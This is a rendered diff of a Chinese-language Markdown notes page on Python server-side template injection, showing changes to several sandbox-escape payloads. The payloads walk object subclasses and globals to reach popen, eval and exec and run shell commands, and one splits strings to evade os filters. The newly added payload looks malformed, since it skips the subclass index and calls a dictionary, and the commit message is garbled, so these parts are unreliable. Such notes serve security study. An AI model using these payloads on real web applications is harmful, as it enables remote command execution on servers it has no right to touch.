

Before and after one commit to whb54012/vscode-notes, a Markdown page: 漏洞类型/ssti/python模板注入.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
自动提交：更新 ${2026/9/29 16:51ilenPM51e}

````diff
--- a/漏洞类型/ssti/python模板注入.md
+++ b/漏洞类型/ssti/python模板注入.md
@@ -103,7 +103,7 @@ os.environ                   # 读环境变量（常藏 flag）
 ### 找到含有os的子类,用下标锁定,然后使用原方案,此时已绕过元素限制获得类属性,按照上述的获取函数方法提取popen模板即可
 
 ```
-().__class__.__mro__[1].__subclasses__()[下标].__init__.__globals__['popen'].popen('id').read()
+().__class__.__mro__[1].__subclasses__()[下标].__init__.__globals__['popen']('id').read()
 ```
 
 **由于使用的()之类的字面量源码包没有导入os,所以使用要用popen**
@@ -122,7 +122,7 @@ os.environ                   # 读环境变量（常藏 flag）
 
 ####
 
-### 2.绕过os被封禁,用eval直接 执行一段表达式
+### 2.绕过os过滤,用eval直接 执行一段表达式
 
 ```
 ...__globals__['__builtins__']['eval']("__import__('o'+'s').popen('id').read()")
@@ -134,3 +134,9 @@ eval只能用于执行一段表达式,不能执行语句
 ```
 ...__globals__['__builtins__']['exec']("import os\nos.system('id')")
 ```
+
+### 4.os被封禁
+
+```
+().__class__.__base__.__subclasses__().__init__.__globals__().popen('id',shell=True,stdout=-1).communicate()[0]
+```
````
